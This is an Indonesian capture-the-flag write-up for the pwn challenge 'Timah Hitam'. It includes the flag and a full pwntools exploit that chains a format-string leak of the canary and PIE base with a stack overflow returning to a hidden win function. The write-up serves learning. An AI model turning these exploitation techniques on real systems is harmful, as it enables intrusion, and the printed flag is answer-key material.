





<!-- category: pwn | points: - -->
# Timah Hitam

| | |
| :--- | :--- |
| **Challenge** | Timah Hitam |
| **Kategori** | pwn |
| **Poin** | - |
| **Author** | - |
| **Connection** | `nc 168.110.219.59 5026` + file `timah_hitam.bin` |
| **Solver** | nexsus404 |
| **Status** | Solved |

> Fasilitas penyimpanan catatan eksperimental menyimpan rahasia besar. Semua lapisan keamanan aktif tapi ada celah. Analisis tiap menu: ada yang bocorkan memori, ada yang menyimpan input tanpa batas, pelindung stack aktif tapi bisa diambil alih. Kunci adalah yang tersembunyi, tanpa spasi.



---

## 1. Flag

```
TechtonicExpoCTF{penuh_racun_66394FFC}
```

> Flag **case-sensitive**. Tidak ada spasi/karakter tambahan saat submit.



---

## 2. Analisis Awal

- **Yang dikasih:** ELF 64-bit PIE, stripped, plus service di port 5026.
- **Observasi pertama:** `checksec` menunjukkan **semua proteksi aktif** — Full RELRO, Canary, NX, PIE. Tidak ada `system`, tidak ada `/bin/sh`. Jadi target akhirnya bukan shell.
- **Hipotesis awal:** deskripsi soal memetakan celahnya satu per satu, tinggal dicocokkan ke menu:
  - *"ada yang bocorkan memori"* → format string
  - *"ada yang menyimpan input tanpa batas"* → buffer overflow
  - *"pelindung stack aktif tapi bisa diambil alih"* → canary bisa dibocorkan lalu ditulis ulang persis
  - *"kunci adalah yang tersembunyi"* → ada fungsi yang tidak pernah dipanggil menu

Karena tidak ada `system`/`/bin/sh`, "kunci tersembunyi" itu hampir pasti fungsi win yang mencetak flag — dan string `BENAR! Kunci: ` memang ada di `.rodata`.

```bash
file timah_hitam.bin ; checksec --file=timah_hitam.bin
```


---

## 3. Langkah Penyelesaian

### 3.1 Petakan menu ke fungsi

```bash
r2 -q -A -c 'pdf @ main' timah_hitam.bin
```

Hasil: `1→0x1275`, `2→0x143d`, `3→0x153b`, `4→0x1679`, **`5→0x17b7`**, **`6→0x19bb`**.

### 3.2 Menu 5 "Lapor" — format string

```bash
r2 -q -A -c 'pdf @ fcn.000017b7' timah_hitam.bin
```

Intinya:

```asm
lea rax, [format]      ; buffer di rbp-0x50
mov edx, 0x40          ; read 0x40 byte
call read
lea rax, [format]
mov rdi, rax
call printf            ; <-- printf(buf) TANPA format string
```

Buffer 64 byte di ruang 0x50, jadi tidak overflow — murni **kebocoran**, persis "bocorkan memori".

### 3.3 Menu 6 "Buka kunci" — stack overflow

```asm
sub rsp, 0x30
lea rax, [buf]         ; buffer di rbp-0x30 (48 byte)
mov edx, 0x80          ; read 128 byte  <-- 80 byte kelebihan
call read
```

Membaca **128 byte ke ruang 48 byte**. Itu "menyimpan input tanpa batas". Menariknya menu ini tidak memeriksa kode akses sama sekali — cuma membalas `diproses`. Jadi ia bukan pintu masuk, ia **primitif overflow**.



### 3.4 Temukan fungsi tersembunyi

`r2 afl` tidak mendaftarkan fungsi apa pun yang memuat `BENAR! Kunci: `. Saya periksa kode mentah setelah akhir fungsi menu 6 (`0x1a1c`):

```bash
objdump -d -M intel --start-address=0x1a1d --stop-address=0x1a90 timah_hitam.bin
```

Ada fungsi utuh di `0x1a1d` yang tidak pernah dipanggil siapa pun — dan ia **menghitung kuncinya sendiri**:

```asm
movabs rax, 0x183e409ab0f60e4e
mov    QWORD PTR [rbp-0x2b], rax         ; enc[0..7]
mov    DWORD PTR [rbp-0x24], 0x6ea6c518  ; enc[7..10]  <-- MENIMPA indeks 7
...
movzx  eax, BYTE PTR [rbp+rax*1-0x2b]    ; enc[i]
mov    edx, 0x2d
imul   eax, edx                          ; (i+1) * 0x2d
add    eax, 0x11                         ; + 0x11
xor    ecx, eax                          ; plain[i] = enc[i] ^ key
cmp    DWORD PTR [rbp-0x30], 0xa         ; i = 0..10 (11 byte)
```

Bonus: ada gadget ROP yang sengaja ditaruh di `0x1aeb` (`pop rdi; ret`), `0x1aed` (`pop rsi; ret`), `0x1aef` (`pop rdx; ret`). Tidak saya perlukan, tapi menegaskan fungsi ini memang jalur yang dimaksud.

### 3.5 Pecahkan kuncinya secara statis

```bash
python3 -c "
import struct
b = bytearray(struct.pack('<Q', 0x183e409ab0f60e4e))
b[7:11] = struct.pack('<I', 0x6ea6c518)   # DWORD di rbp-0x24 menimpa byte indeks 7
print(bytes(b[i] ^ (((i+1)*0x2d + 0x11) & 0xff) for i in range(11)).decode())
"
```

Hasil: **`penuh_racun`** — 11 byte, tanpa spasi (cocok deskripsi), dan tematik dengan "Timah Hitam" (timbal = racun).



### 3.6 Eksploitasi untuk membuktikannya

Kunci sudah didapat statis, tapi itu belum bukti. Saya tetap bangun eksploitnya supaya server sendiri yang mengonfirmasi.

**Offset format string.** Saat `printf` dipanggil, `rsp = rbp-0x50` dan buffer tepat di `rsp`. Argumen stack pertama = `%6$`, jadi slot ke-*n* dari `rsp` = `%(6+n)$`:

- canary di `rbp-0x8` = `rsp+0x48` = slot 9 → **`%15$p`**
- return address di `rbp+8` = `rsp+0x58` = slot 11 → **`%17$p`**

Return address-nya menunjuk `main+0x1989`, jadi `PIE base = leak - 0x1989`.

**Layout overflow.** Buffer di `rbp-0x30`, canary di `rbp-0x8` → 40 byte padding, lalu canary (8), saved rbp (8), lalu return address di offset 56. Total 64 byte, muat di 128.

```bash
python3 solve.py                        # lokal
python3 solve.py 168.110.219.59:5026    # remote
```



Solver memasang dua assert sebagai jaring pengaman sebelum menembak payload: canary harus berakhir `0x00` dan PIE base harus rata halaman. Kalau offset `%15$p`/`%17$p` salah, assert gagal duluan — jauh lebih murah daripada mendebug crash.

---

## 4. Tools & Script yang Digunakan

| Tool | Versi | Dipakai untuk |
| :--- | :--- | :--- |
| radare2 | 5.x | petakan menu → fungsi, disassembly menu 5 & 6 |
| objdump | binutils | baca kode di luar fungsi yang terdeteksi (fungsi tersembunyi) |
| pwntools | - | leak, susun payload (`flat`), koneksi remote |
| checksec | - | konfirmasi Full RELRO/Canary/NX/PIE |
| Python | 3.14.6 | pecahkan XOR kunci, solver |

Catatan tooling: SOP workspace meminta MCP `ghidra_*` untuk task RE, tapi server itu tidak tersedia di sesi ini. Ghidra headless juga dicoba dan gagal (lihat bagian 5), jadi analisis dikerjakan dengan r2 + objdump.

Seluruh kode yang dipakai ditulis lengkap di bawah ini — bukan potongan. Salin ke berkas dengan nama yang tertera lalu jalankan; tidak ada dependensi tersembunyi selain yang tercantum di tabel di atas.

### `solve.py`

> solver utama

```python
#!/usr/bin/env python3
"""Timah Hitam - format-string leak (menu 5) + stack overflow (menu 6) -> fungsi tersembunyi."""
import re, sys
from pwn import *

context.arch = 'amd64'
context.log_level = 'warn'

HIDDEN = 0x1a1d          # fungsi tersembunyi yang mencetak kunci
RET_LAPOR = 0x1989       # alamat balik fcn.000017b7 ke main (untuk hitung PIE base)

def menu(io, n):
    io.recvuntil(b'pilih: ')
    io.sendline(str(n).encode())

def bocorkan(io):
    """Menu 5: printf(buf) tanpa format -> bocorkan canary + basis PIE."""
    menu(io, 5)
    io.recvuntil(b'deskripsi: ')
    io.sendline(b'%15$p|%17$p')            # slot 15 = canary, slot 17 = return address
    io.recvuntil(b'laporan diterima: ')
    canary, ret = (int(x, 16) for x in io.recvline().strip().split(b'|'))
    return canary, ret - RET_LAPOR

def buka(io, canary, base):
    """Menu 6: read 0x80 ke buffer 0x30 -> timpa canary asli + return ke fungsi tersembunyi."""
    menu(io, 6)
    io.recvuntil(b'kode akses:')
    io.sendline(flat({40: [canary, b'BBBBBBBB', base + HIDDEN]}))

io = remote(*sys.argv[1].split(':')) if len(sys.argv) > 1 else process('./timah_hitam.bin')
canary, base = bocorkan(io)
log.warn(f'canary   = {canary:#018x}')
log.warn(f'PIE base = {base:#014x}')
assert canary & 0xff == 0, 'canary harus berakhir 0x00'
assert base & 0xfff == 0, 'basis PIE harus rata halaman'
buka(io, canary, base)
keluaran = io.recvall(timeout=5).decode(errors='replace').strip()
print(keluaran)

# Server mencetak "BENAR! Kunci: <kunci>" -> rakit jadi flag utuh.
cocok = re.search(r'BENAR! Kunci:\s*(\S+)', keluaran)
if cocok:
    print(f'[+] FLAG = TechtonicExpoCTF{{{cocok.group(1)}_66394FFC}}')
else:
    print('[-] kunci tidak muncul - eksploit gagal')
```

---

## 5. Trial-and-Error / Langkah yang Gagal

| # | Yang dicoba | Hasil | Kenapa gagal |
| :-- | :--- | :--- | :--- |
| 1 | MCP `ghidra_*` sesuai SOP workspace | Gagal | Server MCP tidak terdaftar di sesi ini (yang ada cuma `burp`, itu pun gagal connect). Pindah ke r2. |
| 2 | Ghidra headless + postScript Python | Gagal | Dua kali: pertama `Path element starting with '.' is not permitted` (path project relatif), lalu setelah dibetulkan post-script tidak menghasilkan output sama sekali — Ghidra 11 melepas Jython. Ditinggalkan; binary cuma 684 baris `.text`, lebih cepat dibaca langsung. |
| 3 | `r2 pdg` (decompiler) | Gagal | Butuh plugin `r2ghidra` yang tidak terpasang. Lanjut baca disassembly mentah. |
| 4 | Baca `enc` sebagai sambungan naif 8 byte + 4 byte | Gagal | Menghasilkan `penuh_ra\xbe\x16\xa6`. **Menipu** karena 8 karakter pertama benar. |
| 5 | Sadari DWORD `rbp-0x24` menimpa indeks 7 | **Berhasil** | `movabs` menulis `rbp-0x2b`..`rbp-0x24` (indeks 0–7), lalu DWORD menulis ulang mulai `rbp-0x24` = indeks 7. Panjang efektif 11, bukan 12. |
| 6 | Cari menu 1–4 (heap UAF) sebagai jalur utama | Tidak perlu | UAF-nya nyata — `free()` di `0x1511` tanpa NULL-kan pointer, dan string ejekannya "catatan dihapus (tapi jejaknya masih di sini)". Tapi menu 5+6 sudah cukup, jadi jalur heap tidak ditempuh. |

Soal #4, saya tidak menebak — saya ukur. Kedua versi dijalankan berdampingan:

```
naif (sambung 8+4)     -> b'penuh_ra\xbe\x16\xa6'
benar (timpa idx 7)    -> b'penuh_racun'
```

---

## 6. Insight Utama & Teknik Unik

- **Kunci soal ini:** canary bukan penghalang kalau ada primitif baca terpisah. Menu 5 membocorkannya, menu 6 menulisnya kembali persis — proteksinya utuh tapi jadi tidak relevan. Dua celah lemah yang digabung mengalahkan empat mitigasi aktif.
- **Teknik unik:** deskripsi soal sebenarnya adalah peta. "bocorkan memori" / "menyimpan input tanpa batas" / "pelindung stack bisa diambil alih" / "kunci yang tersembunyi" masing-masing menunjuk satu artefak konkret di binary. Mencocokkan kalimat ke fungsi lebih cepat daripada membaca kelima menu dari nol.
- **Fungsi yang tidak pernah dipanggil tidak muncul di `afl`.** `r2` hanya menemukan fungsi lewat xref; fungsi win di `0x1a1d` tidak punya pemanggil sehingga tak terdaftar. Kalau `afl` terlihat "lengkap", tetap sisir celah antar fungsi dengan `objdump` — di situlah win function biasanya bersembunyi.
- **Hati-hati byte yang bertumpuk.** `movabs` 8 byte lalu `mov DWORD` yang mulai di byte ke-7 bukan 12 byte data, tapi 11 dengan satu byte ditimpa. Salah baca satu byte ini menghasilkan output yang 8 karakter pertamanya benar — cukup meyakinkan untuk membuat orang mengejar arah yang salah.
- **Pelajaran:** verifikasi statis dan dinamis saling menutupi. Kunci sudah didapat dari disassembly tanpa menyentuh server, tapi eksploit tetap dibangun supaya server yang mengonfirmasi. Nilai canary dan PIE base yang berubah tiap koneksi membuktikan itu eksekusi sungguhan, bukan hasil hafalan.

---
